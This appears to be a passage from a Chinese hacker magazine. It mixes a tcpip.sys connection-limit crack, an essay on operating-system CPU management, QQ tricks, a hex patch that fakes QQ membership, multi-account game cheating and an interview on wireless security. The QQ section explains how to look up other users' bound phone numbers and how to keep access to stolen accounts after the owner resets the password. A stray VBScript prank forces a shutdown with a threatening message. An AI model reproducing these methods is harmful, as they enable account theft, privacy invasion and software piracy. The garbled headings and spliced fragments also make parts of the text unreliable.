tcpip.sys 文件破解成功后，按照要求重新启动操作系统，这时系统会提示 tcpip.sys 文件出现错误。之所以会出现这样的问题，就是刚刚提到的数字签名验证。所以现在需要点击 Esc 键重新启动系统，按下 F8 键在“启动高级管理器”里面选择“禁用强制驱动程序签名”选项，这样系统就可以允许没有数字签名的文件进行启动。但是这只是一种变通的方法，因为每次启动都必须做同样的事情，所以为了使整个过程操作起来更简单，可以使用 ReadyDriver Plus 来辅助完成。

### 2、简化操作过程

先下载安装 ReadyDriver Plus，安装的过程首先要设置启动文件 Boot 的路径。如果只安装了 Vista 系统的话，那么就使用默认的启动路径即可。如果安装了多个操作系统，那么就需要在这里更改启动文件 Boot 的路径，如图2。

接着在 ReadyDriver Plus 的安装窗口会要求设置倒计时时间，软件默认的倒计时时间为一秒钟，如图3。然后再设置 ReadyDriver Plus 在系统启动菜单中的一些内容。

ReadyDriver Plus 安装完成以后，会修改系统的驱动文件 boot 中的信息，以后在启动系统的时候，启动管理器会首先加载 ReadyDriver Plus 程序，接着 ReadyDriver Plus 会自动模拟用户操作，进入到“启动高级管理器”里面选择“禁用强制驱动程序签名”。

由此可以看出，ReadyDriver Plus 的破解方法和用户操作如出一辙，只不过通过程序来简化了这一系列登录过程而已。

### 三、内存破解方法

如果大家觉得文件破解法比较复杂，那么可以选择另一种方法——内存破解法。这里需要使用到专业破解系统并发连接数限制的小工具——TCP-Z 连接数破解补丁。

首先运行主程序 TCP-Z.exe（64 位系统运行 TCP-Z64.exe），程序可以实时显示系统当前运行的 TCP 连接数、半开连接数，以及下载速度的历史曲线等，如图4。

现在在 TCP-Z 主程序界面上切换至“补丁”标签，用户可以将“内存补丁”一项调节至理想数值，然后单击窗口里面的“应用”按钮就可以了，如图5。

如果不知道多少为理想数值，那么直接将其调到最高的位置。这样即使是退出 TCP-Z 程序，连接数的内存修改依然有效，直到系统关机为止。

图 6

图 7

由于该方法并没有对系统文件进行破解，所以在下一次启动系统以后，又必须利用 TCP-Z 进行连接数的重新破解。如果你觉得每次修改太麻烦的话，可以点击“内存补丁”小贴士中的 Open 链接，打开驱动文件所在的磁盘目录，然后根据自己的系统来运行对应的驱动程序。32 位系统用户请选择“X86 安装程序”，64 位系统用户请选择“X64 安装程序”。

在安装窗口点击“确定”按钮，然后单击“安装驱动程序”即可进行安装，如图6。

安装过程中如果出现数字签名需要确认，直接点击“确认”按钮后继续安装即可。成功安装后重新启动系统，会在设备管理器中看到一个“TCPZ Driver”的新设备。展开“TCPZ Driver”中的内容并双击它，在弹出的窗口中切换到“Properties”标签，在“期望数值”中输入相应的连接数就可以了，如图7。

### 三、小结

通过上面的介绍，我们了解到文件破解法和内存破解法它们之间各自的优点和缺点。因此，用户完全可以根据自己的需要来选择相应的连接数破解方法。另外，这两种方法不仅适合于现在的 Vista 系统，包括正在进行测试的 Windows 7 系统也适用。

编辑点评：很实用的工具和技巧嘛，大家仔细看看。

## 浅谈操作系统原理（二）——操作系统管理 CPU

飘首语：又一个六月，如火的季节。我喜欢六月的星星，似乎更加明亮。听人说：每一颗星星都承载着一个美丽的愿望，遥远地望着，却不知道是近是远。但无论怎样，它们的光芒都会映在你的心里，尘世间的每一个人，当奔波的足迹停下时，英雄不论成败，一千个人，就有一千首歌。

图/五岳 Jian派 HackRain

- 从本文您可以学到：
- 1. 了解 CPU 的结构及状态
- 2. 知道操作系统是怎样管理 CPU 的

上一章中，我们最终跟随“线程”的脚步进入了 CPU 中，操作系统需要更深层次地通过对 CPU 的管理，才能使其有序且高效地运行。

把整个计算机硬件体系设想成为一个大房子，现在我们跟随“线程”这位客人，从名为“内存”的房间进入到名为“CPU”的房间。“内存”可能只是客厅，暂时让客人等等，而“CPU”则是会客厅，直接解决客人的来访目的和需要。而操作系统是主人管理这所房子的手段，包含房子能源的供应、资源的分配以及为客人定下的进出房子的规则等等。

### 一、CPU 的结构及状态

在学习操作系统管理 CPU 的内容及方式前，我们需要了解几个概念，这些是前提。

- 1、CPU 结构

CPU 由硬件和软件指令系统两大部分构成。软件指令系统因为是固化在 CPU 硬件之中的汇编指令，所以在操作系统中称作硬件指令。首先来看硬件部分，主要有：高频晶体振荡器、ALU（逻辑运算器）、控制器、一系列寄存器。

高频晶体振荡器能够产生高频的脉冲电流，为计算机提供能源，所以被称作计算机的心脏。玩过硬件的朋友应该都知道 CPU 的主频，它主频的产生源便是高频晶体振荡器，它的每秒振荡次数是固定不变的，振荡频率也就是主频的大小。

如果玩过超频（即人为提高 CPU 主频以提高其性能），会发现内存频率和主板前端总线频率都会随着 CPU 外频的提升而提升（一般通过提高 CPU 外频来提高主频，主频＝外频 × 倍频，有兴趣的朋友可以查阅资料），这更能充分显示出 CPU 在计算机中的核心位置。

ALU 内部集成了一系列数字门电路，以实现各种逻辑运算，比如逻辑与、逻辑或、逻辑非等运算。学过任何一门编程语言的朋友都应该知道逻辑运算的含义，在此就不做解释了。

控制器向计算机的各部件发出控制指令，以控制整体的运行环境，协调各部件的工作。

一系列寄存器中，如通用寄存器、段寄存器、标志寄存器、指令寄存器等，它们可以为 CPU 指明访问方向，缓存接收到的硬件指令，使 CPU 能够有条不紊地工作。这里重点讲下标志寄存器，因为在后文会有提及。

标志寄存器主要用于存放程序运行时的各种状态标志，操作系统能通过它收集应用程序运行的情况，从而做出对应的处理和进行新的调度。

### 2、CPU 状态

操作系统对 CPU 的管理是让 CPU 执行相应指令来实现的，指令包含“特权指令”和“非特权指令”。前者是说，CPU 执行这些指令时，除了运行应用程序，还能够运行操作系统内部的核心程序，以及调度 CPU 内部各部件工作。后者是说，CPU 执行这些指令时，只能运行应用程序。我们可以理解成，前者让 CPU 能够一心多用，后者则让 CPU 一心一用。

什么时候执行特权指令，什么时候执行非特权指令呢？这一切跟 CPU 的状态有关。CPU 的状态分为“管态”和“目态”两种。处于管态时，CPU 就执行特权指令，处于目态时，CPU 就执行非特权指令。下面来具体看一下 CPU 的这两种状态。

**CPU 所处的状态是由 CPU 内部寄存器的某些标志位的二进制值所决定的。**当某些二进制值符合规定，CPU 就处于“管态”，此时的 CPU 由于能够执行特权指令，于是可以根据指令的优先级高低来运行相应对象。通常情况下，CPU 内部的操作指令会优先级最高，即对应前文特权指令中包含的“调度 CPU 内部各部件工作”，其次是操作系统内部的核心程序，最后是应用程序。

由于 CPU 在某个瞬时只能被一个对象占用资源，应用程序、操作系统、CPU 内部指令系统，乃至其它设备都通过向 CPU 发出“中断请求”信号来要求其调度 CPU 资源。CPU 接到“中断请求”信号后，依照优先级的高低来执行对应指令。

> 这里什么是“中断请求”信号呢？这种信号会通过 CPU 内部的总线进行传递。CPU、操作系统为每一个设备（包含应用程序、CPU 内部指令系统及操作系统本身）设置了特殊的标识，CPU 能通过信号包含的信息（即对应的标识）迅速定位到发出请求的设备，再依照优先级高低决定该运行的对象。但别忘了，响应应用程序以外的设备发出的请求，前提是 CPU 必须处于管态。

为了便于理解，来举个例子。我们需要运行一个 3D 游戏，当 CPU 处于管态时，游戏程序发出中断请求信号，CPU 响应了此信号，开始运行此游戏。如果此时操作系统发出了更高级别的中断请求信号，CPU 会响应这些中断，在下一个瞬时停止对游戏程序的资源分配。若之后 CPU 内部需要通过执行“3DNow!”指令（AMD 处理器中一个提高 3D 处理能力的扩展指令，也属硬件指令的范畴）来提高 3D 性能，则 CPU 会利用内部总线传输相应的信号，执行这条优先级更高的指令。

**CPU 何时处于目态，也是由 CPU 内部寄存器的某些标志位的二进制值所决定的。**当某些二进制值符合规定，CPU 就处于目态。处于目态的 CPU 只能执行非特权指令，也就是只能接受到应用程序发出的中断请求信号。当操作系统、CPU 内部指令系统或其它设备发出中断请求信号时，CPU 是接收不到的，所以便不会，也不能执行除应用程序外的其它指令了。

**下面就要说到操作系统在这里的作用了。操作系统能通过特殊的方式改变 CPU 内部寄存器的某些标志位的二进制值，从而改变 CPU 的工作状态，因为这些二进制值与 CPU 状态是对应关系。**但操作系统又是怎样掌握改变 CPU 状态的时机呢？继续往下看……

### 3、PSW（程序状态字）

操作系统需要收集足够多的信息才能得出改变 CPU 状态的时机；这要归功于 PSW。每一个 PSW 包含在每一个应用程序内部，是程序的一部分。它能够告诉操作系统当前 CPU 执行操作系统内部的核心程序、调度 CPU 内部系统指令调用其它设备时所对应的标识位上的二进制值【这个位置和取值，依据程序不同而不同，CPU 会根据这些信息再适时修改特定位置上的二进制值，用以改变 CPU 状态】，以配合程序的运行。

依旧拿我们玩游戏来举例，游戏软件本身是一个应用程序，它在运行的某一小瞬时中，假设 CPU 先处于目态，若游戏程序在下一个瞬时要求调用 USB 手柄这一硬件设备，PSW 中早已记录这种要求，操作系统便会修改某些标志位的二进制值，使 CPU 转为管态。管态下的 CPU 便可接收到 USB 手柄设备的中断请求信号，并为其分配资源。

大家要相对地去理解这种变化，可能在两个瞬时内 CPU 就经历了由目态到管态的转换，相信只要理解好瞬时的概念，这里也就不难理解了。

PSW 的内容在汇编语言编写的程序中是“明文”可见的，直接规定了 CPU 的标志位中相关位置上的取值，如汇编指令中 CF（进位标识符）、PF（奇偶标识符）等等。大多数程序用的都是高级语言，PSW 是不可见的，需要经过编译后转换为二进制的机器语言指令后方可运行。无论汇编语言、应用程序，在运行时都要对标志位上的值进行比对或规定，才能使操作系统正确修改这些 CPU 状态，进而使 CPU 正确无误地分配资源，最终保证整个计算机系统的稳定运作。

### 三、操作系统管理 CPU 的内容

操作系统究竟管理 CPU 的哪些方面呢？主要包括管理 CPU 状态和实现对 CPU 资源的调度。

#### 1、操作系统管理 CPU 状态

这点在上文已经很系统地提到过，写一段话来总结一下。操作系统通过应用程序中包含的 PSW 中的相关规定，修改 CPU 内部标志寄存器的某些标志位的二进制值，从而使 CPU 改变到此值对应的状态（注：CPU 内部标志寄存器中的数据是动态且实时更新的，随进驻应用程序、包含的信息而变化）。

#### 2、操作系统对 CPU 资源的调度

其实这一点在前两篇文章中有过提及，在此依旧系统地总结一下。

操作系统让程序化为进程，在内存中以“链”的方式排成队列，按照队列中所处位置先后来分配 CPU 资源。并且这种分配的方法需要遵循“调度算法”，目前一般采用“多级反馈队列”的算法来进行分配。这样，操作系统就实现了对 CPU 资源的调度。

学习过操作系统管理 CPU 的内容之后，下期我们将了解到操作系统管理 CPU 的方法，并走出名为“CPU”的房间，继续我们的操作系统原理之旅。

> （作者话：近来碰到很多事，这篇稿子差点没赶上。在这里感谢我爱并且爱我的雨，是她给了我开心和信心，呵呵，我会很听话的。）

**编辑点评：**

操作系统专题已经三期了，大家一定是受益匪浅吧。有些小菜是不是还是看得迷迷糊糊的？没关系，这种东西，只要你把它们都放到一起多读几遍，自然就会明白的，不努力是不会有收获的。

# 酷玩

酷玩总评：上期我们研究了手机QQ，不知大家玩得过瘾不？不过瘾没关系，玩完手机QQ我们再来玩3G QQ，今次最火的名词“询问”可不能放过。然后，是我们的网络揭秘第二篇，带小菜练就一双火眼。记得之前我们把 QQ2008 的资源文件都玩遍了，现在 2009 出来了，自然也不会放过的。另外还有刷欢乐豆啦、下载空间音乐之类的小技巧，相信一定不会让你失望。

## 3G QQ 我盗悍玩

图案产出

其实老早就想写了，只是一直找不到代理，没法截图。还好最近找到了个代理，真是有心人天助之啊！OK，正题！

### 一、3G 绑定手机轻松查

总是有很多人在得到别人的 QQ 时想要查看他人的绑定手机，也不知他们是为了申诉还是进行要挟，今天给大家介绍最简单的方法。

首先登录自己的 3GQQ，进入“家园”（家园是 3GQQ 独有的一种功能），如图 1。

接下来点击“修改身份卡”，就可以看到绑定的手机号码了，而且是不带星星的哦！如图 2。

可能是我最近用手机刷钻把我绑定的手机顺便下了的原因吧，它提示说没有绑定手机！如图 3。还好没用自己的身份证办号，对不起卖我手机号的大婶了。


```vb
set WSHShellA = wscript.createobject("wscript.shell")
WSHShellA.run "cmd.exe /c shutdown -r -t 60 -c \"我好兴奋，不说你就会猝死~~\"",0,true

dim a
do while(a <> "我没猪")
```

### 二、3G 轻松加设置空间问题的好友

0905 期上也介绍了几种方法，在这里我做一下补充吧，当然还是在 3G 的情况下。

首先进入 3GQQ 的查找好友功能，输入要加好友的 QQ 账号，点击加为好友，如图 4。

看到了没有，只需要添加身份验证就可以了，无所谓什么知不知道答案吧，如图 5。

在这里我是用我的小号加我大号做的演示，下面看一下大号收到添加好友通知了没有，如图 6。


接下来做个对比，在电脑上添加自己的大号给大家看一下，如图 7，看到没有，是我设置的问题。

### 三、3G 轻松转载禁转文章

也不知道是不是 QQ 空间 5.0 中提供的“禁止转载”功能，最近想转别人的文章居然提醒我禁转，其实我粘过来就行了，可我想气一下那小子，所以研究出了方法。下面请看我的演示，首先我先到大号中对一篇日志禁转，如图 8。

接下来用小号在手机 QZONE 中找到刚才的日志点击转载就 OK 了。这时会提示你转载成功了，如图 9、图 10。接下来就用电脑进一下空间，看看转载成功没有，因为很多东西都是在 3G 上可以，可一到了电脑上就 NO 了。不过这里庆幸的是 OK，如图 11，转载成功了。

接下来我们再利用电脑对同一篇文章进行转载，结果提示如图 12。


### 四、加固 QQ 网鸡我就用 3G

想必大家都有盗用别人 QQ 的经历吧，时间久了人家改了密码，你还能上吗？答案是否定的，BUT，3G 爆出了这么个致命的 BUG，这有点类似于去年经典的 32 位 CAY 的漏洞。

首先还是登录 3GQQ，进行保存书签操作。由于代理上无法实现，我就不截图了。然后我用电脑将自己的 QQ 改了密码，接下来在 3G 状态下打开刚刚保存好的书签，结果如图 13，说明我加固成功了！

接下来，认真听关键了！不要点击马上登录或者隐身登录，不然会得到密码错误的提示，如图 14。

点击最下面的“手机腾讯网”，如图 15。

然后在手机腾讯网下进入除 QQ 之外的任意子网页，我进入的是手机 QQ 空间，如图 16，看到了没有，已经登录了。

需要提示的是，时效期为 1 个月，所以大家应当及时更新书签，也就是连续保存图 15 的网页就可以了，不过不要玩得太过火了啊！


### 五、3G 轻松实现 QQ 升级

这个没有什么好说的，这是应对网页 QQ 所提供的特权，登录一次在线半小时，也就是说每天登录 4 次就可以赚足活跃天数了。接下来我把自己的 3GQQ 网页关掉，用大号看一下是否在线，如图 17。

### 六、总结

最近正是 3G 手机普及的阶段，不知道到时候手机网会出现什么情况，希望大家可以多多研究一下，本文只是抛个砖罢了！

## QQ2009 实现本地会员功能

（去广告、红名等）

一直有很多人希望得到 QQ 会员，不过每个月要的费用让很多人止步，今天就来教大家通过对文件的修改实现 QQ 会员功能的本地显示。修改后便可以至少实现如下功能（我主要是为了去广告，其他的没有去发掘），如图 1。注意：方法仅支持 QQ2009 正式版。

- 1. 上线会员提示；
- 2. 可以设置不显示广告；
- 3. 在线好友全红名；
- 4. 点亮若干图标


```
将 QQ 目录下的“BIN\KernelUtil.dll”文件中的“8BC68B4DF4（第 32 处）”修改为“B801000000”。
```

修改步骤：

修改前请先备份“KernelUtil.dll”，核对文件信息如下：

文件名称：KernelUtil.dll  
文件路径：C:\Program Files\Tencent\QQ\Bin

- 1. 首先下载 Hex Workshop V6.0.1.4603 绿色汉化特别版（http://www.xdowns.com/soft/4/85/2004/Soft_2733.html）
- 2. 用 Hex 打开“KernelUtil.dll”文件，然后按 Ctrl+F，在搜索框里设置为：“类型”选择“十六进制值”，“数值”选择“8BC68B4DF4”，“选项”这里勾选“查找所有实例”，如图 2。
- 3. 搜索之后，在右下角就可以显示搜索到的所有数据，找到第 32 处（地址是 0x0000D5C9），如图 3。
- 4. 然后将上面的“8BC68B4DF4”修改为“B801000000”，如图 4。
- 5. 保存文件，然后将修改好的“KernelUtil.dll”复制到 QQ 安装目录下的 Bin 文件夹下即可。


## QQ 游戏免费刷欢乐豆的方法

很多人都在为欢乐豆烦恼，其实就是不想出钱，呵呵。获取很简单，很老的思路了，只是今天重新整理了一下。

- 准备工具：
  - QQ 游戏大厅多开补丁
  - QQ 号若干
  - 花刺代理验证
  - 代理若干


- 具体步骤：

1. 首先安装“QQ 游戏大厅多开补丁”（下载地址：http://www.yfvb.com/Soft/61.html），将下载到的文件复制到 QQ 游戏的目录（默认路径是：C:\Program Files\Tencent\QQGame），然后双击“开始打补丁”，如图 1，这样就可以实现游戏大厅的多开了。

2. 获取可用的代理

代理发布网站：（http://ipbbs.com）  
花刺代理验证（下载地址：http://www.newhua.com/soft/33681.htm）

安装好花刺代理验证，然后将 ipbbs 等代理发布网站的代理地址全部复制到一个文本文档中进行整理，使用“查找/替换（Ctrl+H）”将“80”全部替换成“:80”（其他端口类似），如图 2。

这样就可以将 80 和 8080 端口替换成“花刺代理”所能验证的格式。替换好之后保存一下文本，然后进入花刺代理，先将之前的代理全部删除掉（右键“全选”－“删除”），再将整理好的文本导入到花刺验证中，如图 3。


然后点击软件界面上的“全部验证”，即可找出可用的代理地址和端口，如图 4。


3. 打开 QQ 游戏大厅，在登录界面这里点“高级设置”，再选择“HTTP 代理”，将能使用的代理复制到相应的对话框中，如图 5。

设置好之后登录第一个 QQ 号码，然后按照上面的方法设置另外一个代理地址，登录另外一个 QQ 号码，最后不使用代理登录自己的号码，也就是将欢乐豆的号码（两个被刷的号码用代理，自己的号码不用代理），将三个号码进入到同一个房间、同一个桌子，如图 6。


4. 然后将窗口都缩小，按照自己喜欢的方式摆放，记得自己的主号就可以了，如图 7。

**经验交流：**

- 1. 因为每个号码每天才送 4000 的欢乐豆，建议多准备一些号码。
- 2. 最好全部明牌开始：始终是主号贴，其他的两个号不出，这样的倍数就比较高，除非是有两个以上的炸弹再选择出牌。
- 3. 将口的排放，建议将主号放在右边，第一个家在上面，第二个家在下面，这样方便出牌。

**注意：**这并不是腾讯的漏洞，只是小技巧，只要不被巡视的工作人员看到就不会被封号，可以说很安全。为了游戏的正常发展，希望大家只用于测试。

## 如何下载 QQ 空间音乐

□科圣计划

相信经常玩 QQ 空间的朋友一定对别人空间里的背景音乐垂涎欲滴，但又没有什么好的办法可以下载下来。以前还以为可以到 IE 临时文件夹中找，但是发现不行。那么，是不是就没有办法了呢？非也，非也，我还是找到了办法，**关键就在你的 QQ 安装目录下的 Tencent\QQ\QQMusic\WhirlCache 这个目录。**你打开后，一定会发现有许多音乐文件，没错，那就是你打开的 QQ 空间听过的音乐。我们可以先把里面的文件全部删除，再打开你要下载背景音乐的 QQ 空间，再在文件夹里点刷新，不一会儿，你要的音乐文件就出现了，很方便吧？没想到腾讯还在这方面还做了手脚，但道理都还是一样的，一样要缓冲，一样要下载到本地。

## 空气中的战争

□部分土豆进城

——访无线安全专家杨哲 [longas]

想起一个笑话，但记得不太清楚了，在谷歌上没有搜到，估计是关键字没整对。大意是说几个人吹嘘各自国家在电信方面的悠久历史，其中一个人说他们国家挖到了 100 多年前的电话线……最后一个人说了句很衰的：我们国家什么也没有挖到。其他几个人正准备嘲笑他，他接着说：这说明 100 多年前我们国家就已经开始使用无线电了。

今天我们的采访正是围绕着无线展开的。现在有一些城市已经开始进行无线城市的建设，08 奥运期间，北京就曾对奥运场馆、休息区、记者区进行全面无线网络覆盖，使得只要在这些区域内的任何人，都可以通过连接无线热点进行网上冲浪。而在北京一些商业集中的地段，如中关村、金融街、CBD 等区域，早已有了无线宽带的覆盖，在中关村电脑城，一些卖笔记本的商家就是通过无线网络来帮助顾客测试本本的无线性能上网功能。

同时，无线网络随着无线路由器的普及早在几年前就已经走入了寻常百姓家，一些公司或家庭因为不同设备（笔记本、有无线网卡的台式电脑、PDA、PSP 等）无线上网的需求，在办公区域或家庭内增设了无线 AP（接入点，全称 Access Point），大大增强了上网设备的机动性，弥补了有线网络的局限性。

无线虽然不可见，但无线网络的普及程度却是触手可见的，我们在办公室或者住宅小区用本本搜索一下附近的无线接入点，很多时候都能发现起码有两个以上的接入点。穿墙而入的无线网络，自然早已成为了 Hack 们跃跃欲试的目标，“Hack 就在你隔壁”已不再是一句戏言。无线网络的安全隐患早在多年前就被比较有前瞻性的人所预见，而今，随着无线网络普及程度的提高以及相关工具的日益丰富，特别是在近年来，无线安全问题犹如“忽如一夜春风来，千树万树梨花开”之态势，很突兀地暴露在公众面前。

作为无线家庭用户，我们该如何加把无线 Hack 拒之门外呢？对公司来说，无线网络给公司数据的泄密又增添了一条新的途径，因为公司内松外严的管理制度很容易给以局域网身份侵入的非法用户提供更多的便利条件。那么作为公司，又该如何防范呢？

无线 Hack 所能带来的危害到底会有哪些？无线 Hack 和传统黑客最大的区别又是什么？无线网络严格的安全管理会给网络的易用性带来哪些不便？……纠结着这些被无线缠绕的疑问，《黑客手册》采访了国内知名无线网络安全专家杨哲。

杨哲（Christopher Yang，ZerOne 无线安全团队负责人，常用 ID：Longas），我们的读者对他应该是比较熟悉了，他在《非安全·黑客手册》上发表过一些无线网络安全相关的文章，大家可以在本期或者过几期杂志上找到。杨哲曾在 2008 年 XKungfoo 安全峰会上做过“无线安全——传统安全的软肋”的演讲，大家通过 Google 可以搜索到更多相关的资料。

杨哲现供职于西安一家民营的网络安全公司，他除了在本行业有着无线安全专家的美誉，在业余爱好上却是一位不折不扣的专业玩家。他喜欢徒步旅行和玩游戏，是一位标准的驴友，各种户外装备一应俱全。身为领队的他，曾带队进行过悬崖速降、皮艇漂流、徒手攀岩、原始丛林穿越等。他的游戏玩得也比较棒，比较擅长第一人称类的射击游戏，从最早的“半条命”到现在的“F.E.A.R.”等几个系列，都玩通关了。下面，通过我们的采访，一起来了解下他吧。

采访对象：杨哲 [longas]  
（以下简称杨哲）

采访者：非安全·黑客手册  
（以下简称黑手）

### 一些概念

**黑手：** 杨哲，你好，请问当初是如何进入安全这个行业的？

**杨哲：** 你好，说起来很有意思，从最早开始只是兴趣，比如 97 年就只是会个 Ctrl+Q!!UBOJUN 破解器、WPS，接着在大学由于喜爱开始深入学习，后来在从事高级安全培训讲师后，随着不断深入慢慢认识了一些安全上的朋友，也就不知不觉融入了。

**黑手：** 你是 ZerOne 无线安全团队负责人，能给我们介绍一下你们团队吗？

**杨哲：** 首先需要强调的是，ZerOne 安全团队在国内并不出名，这里面有很多原因。最主要的原因之一是 ZerOne 团队的核心成员很多都不是安全行业出身，二是我们从一开始就严格执行了通信安全方面的要求。

其实最早成立 ZerOne 安全团队时，并没有把无线安全作为主要的目标，而是和其他民间团队一样，从事常见的如 Windows、BSD、SQL 等方面安全技术的学习和研究。但随着不断地发展，现在无线安全已经成为我们的主要方向。ZerOne Security Team 的核心成员并不多，这也是数次开会中统一的“宁缺勿滥”的想法，所以团队的主体始终是核心成员，而一些外围成员在经过数月的观察考核后，也很遗憾地被剔除了许多。根据方向的不同，团队下属主要有研发组、测评行动组、安全组、硬件组等。

**黑手：** 你致力于研究无线安全又是在什么时候，为什么做出了这样的选择？

**杨哲：** 03 年初我还在西安电子科技大学安全重点实验室里做毕设的时候，当时已开始觉得安全应当是多角度的，很多有潜质的技术其实安全性也将随着发展而受到广泛重视。那个时候和一个师兄聊天时提到了无线，于是便开始留意。

但是迫于环境和 money（笑）的原因，那个时候也不太可能做出什么（PS：那个时候无线网卡可是最少 1000 块一张的）。06 年的时候看了大量的无线 Hacking 资料，直到次年初去了香港，在那边看着让人眼花缭乱的无线产品，我觉得，中国的无线黑客时代终于到来了。所以回来在收到国内一个无线论坛的邀请后，立即接受成为其论坛无线安全版版主，经过两年的建设，这个论坛已经成为国内最大的网站无线黑客及安全技术交流版块。

**黑手：** 无线 Hack 的标准定义是什么？

**杨哲：** 和有线一样，Hacking is a state of mind.

**黑手：** 无线 Hack 从传统黑客中细分出来自成一派，你认为无线 Hack 和传统意义上的黑客最大的区别是什么？

**杨哲：** 无线和有线最大的区别就是，一个是随时随地，只要有信号就可以展开攻击；一个是必须依赖于有一个网络接口。而且通常情况下，一个私自搭建的无线接入点很可能会破坏掉整个防御体系。

**黑手：** 我国无线安全的技术实力和国际发达国家相比，有哪些方面的差距？

**杨哲：** 差距有很多，比如现在国内普遍使用的主流无线破解工具，几乎没有一个是由国内黑客编写的。至于更高级别的无线安全应用，在国内就更少见了。不过国内编程方面的高手也有很多，这里面有很多人切进来其实并不难。

其实最主要的差距还是无线安全基础知识普及率太低，我在北京、杭州、广州及西安的街道探测无线信号时，基本上每次都能发现有近一半没有任何加密，还有 1/3 用的是已被淘汰的 WEP 加密，而且有些用 WPA 的居然还是弱密码，所以常常很无语。

### 一些技术

**黑手：** 现在国际上通行的无线网络是以 WiFi（全称 Wireless Fidelity，无线宽带）作为标准，能给我们介绍一下 WiFi 的安全现状吗？和我国制定的新标准 WAPI，就安全性而言，孰优孰劣？

**杨哲：** 对，现在通称的 WiFi 就是指基于 802.11b/g/n 标准的无线网络，也就是目前大家通常所说的无线网络，其面临的安全威胁也是目前大家所主要探讨的。至于 WAPI，其发展颇为曲折，但是说实话，由于现有技术资料的不明确，所以我对 WAPI 并不了解。

**黑手：** 通行的无线网络都有哪些什么样的加密方式？它们各有什么特点？

**杨哲：** 常见的有 WEP、WPA-PSK/WPA2-PSK，还有就是企业和运营商使用的 WPA-Enterprise，也就是我们常说的基于 RADIUS 服务器的 EAP 认证。WEP 目前基本上已经没什么作用了，无论多复杂的密码都基本上最快 1、2 分钟被破解，这个以后我会发几篇文章以作说明。WPA-PSK 是目前主要推荐的加密方

## 工具的采访

一般来说，只要不是弱密码就很难被破解。至于 EAP 认证，随着其加密的深入，可以说是目前最安全的方式之一，但也有着部署较麻烦的特点。

**黑手：** 无线攻击常用的攻击手段有哪些呢？

**杨哲：** 有很多，从单纯的 WEP 及 WPA 连接密码破解外，还有无线 D.O.S、无线欺骗、伪造基础攻击、无线设备溢出、数据拦截与还原、认证体系攻击等等。除此之外，还有针对蓝牙、GSM、CDMA、3G 等攻击、欺骗或伪造的技术，呵呵，大家别忘了这些也属于“广义”无线安全的定义范围，只不过我们不常这么说罢了。下次有机会我会给大家带来一些针对蓝牙攻防的文章，希望有人喜欢。

**黑手：** 现在一提到无线破解，首选的系统就是 BT3，你能介绍一下这个系统吗？

**杨哲：** 其实在 04-05 年做 CIW 安全培训和实验讲师时，为了方便，常用到 Auditor 这个黑客渗透用平台，偶尔也会用到 Whax，就是白帽子的那个。之后国外的黑客组织综合了这两者的优点，就制作出了 BackTrack，目前其最新版本为 BackTrack4 beta。

很多朋友认为 BackTrack3 只是提供无线 hack 上的工具，这绝对是个误区，BT3 上内置的各类黑客工具有近 200 种，涵盖了扫描、溢出、欺骗、逃逸、脱壳、木马、无线、VoIP 等各个方面，实在是“居家旅行，谋财害命”必备的良器，哈哈，玩笑……

**黑手：** 就无线破解而言，BT3 和 Windows 哪个的破解效果更好？

**杨哲：** 个人推荐在 Linux 下，不过不一定使用 BackTrack3，这类的平台有很多，比如 WifiSlax、WiFiway、nUbuntu 等等。而 Windows 下由于软件的限制，加上破解工具有很多都是从 Linux 下移植过来，功能上多有限制。

**黑手：** 作为无线安全测试的话，用什么功率的无线网卡和我们一般的个人用笔记本更匹配一些？

**杨哲：** 一般来说，为了达到更远距离的探测效果，可以选择功率大于 300mW 的无线网卡，甚至 500mW 的卡。这些卡能够探测到 1 公里以外的无线信号，但是需要注意的是，其辐射也很大，建议使用时放置得离人远一点。（某编：特别是家有孕妇的情况）

**黑手：** 听说显卡也能对无线网络进行破解，你能给我们介绍一下它的工作原理是什么吗？另外还有哪些无线破解的相关设备，请给我们介绍一下？

**杨哲：** 记得几年前 NVIDIA 推出可以对显卡 GPU 编程的语言 CUDA，那个时候确实觉得不可思议。但随着对 GPU 相关知识的了解，发现国外一些黑客已经开始从事使用 GPU 进行通用运算的研究，于是在团队研发 2 组组长的努力下，我们也开始了自己 GPU 破解运算工具的研发。对使用显卡进行破解感兴趣的朋友，可以参考一下本期“黑手”中我写的《无线 WPA-PSK 加密破解利器——EWSA》一文。

**黑手：** 现在无线路由器几乎成为了家庭上网的必备，对于家庭用户而言，怎样才能更好地保护自己，防止诸如欺骗、监听之类的攻击？

**杨哲：** 多使用 SSL、SSH 及加密会是个好办法。如果是一般用户，也可以综合使用 MAC 地址过滤、关闭 SSID、降低无线增益或功率、设置加长型 WPA2 密码等方法。

**黑手：** 现在国内如北京、上海等一些城市所建设的 WiFi 基站都已经达到了一定的规模，ISP 一般普遍采取的安全接入方式都有哪些；而这些热点的接入用户如果被破解的话，也仅仅只是用户账号被破解并免费享用这一损失吗？有其它方面的危害没有？

**杨哲：** 现在 ISP 提供的无线接入基本上都采用了 RADIUS 认证方式，或者 MAC 地址绑定、更方便化的方式。但是也存在一些只是单纯依靠 WEP，或者 WPA 加密为保护障碍的设备，再加上一些用户漫不经心的密码设置，使得通过破解其加密绕过上网目的的可能性大大增加。在 08 年 7 月的时候，我写了一篇关于破解某电信“我的 e 家”的操作手稿，没想到被到处转载，不过这些方法现在基本已经失效了。

**黑手：** 一般公司内松外严的管理制度很容易给以局域网身份侵入的非法用户提供更多的便利条件，这又该如何防范呢？

**杨哲：** 这个问题一直都存在，除了加强安全意识培训和实施加固外，没有特别好的办法。

**黑手：** 无线 Hack 所能带来的危害到底会有哪些？

**杨哲：** 有线网络中能导致的危害，无线网络中基本都能做到。

**黑手：** 安全加固有时候会和易用性产生冲突，甚至一些安全产品会以牺牲工作效率作为代价，请问在无线安全的加固上，会有哪些另一些牺牲或者牺牲？

**杨哲：** 一般来说，加密级别越高越复杂的无线网络，其网络速度会受到的影响越明显，尤其是在进行大流量交互时。比如在 RADIUS 认证下，合法客户端将需要证书的认证，所以申请、核实、验证等过程会消耗掉一些可用资源。

## 个人与社会

**黑手：** 你在 2008 年 xKungfoo 的演讲上，演示过一张显示北京市区内无线发射点的热点地图，请问这个地图你是如何制作的？

**杨哲：** 这个图很简单，基本上可以理解为使用无线网卡 + GPS 实现的无线接入点定位，再将其导入到 Google Earth 的卫星地图里，就可以看到效果了。这样的地图在无线 hack 里称之为 Hotspot 热点地图，国外早在 2002 年左右，就已经出现了大量的卫星定位无线热点地图，现在基本上整个美国的无线地图已经被绘制完毕。很多人不明白这个地图的作用，呵呵，其实它有另外一个名字：无线入侵地图。
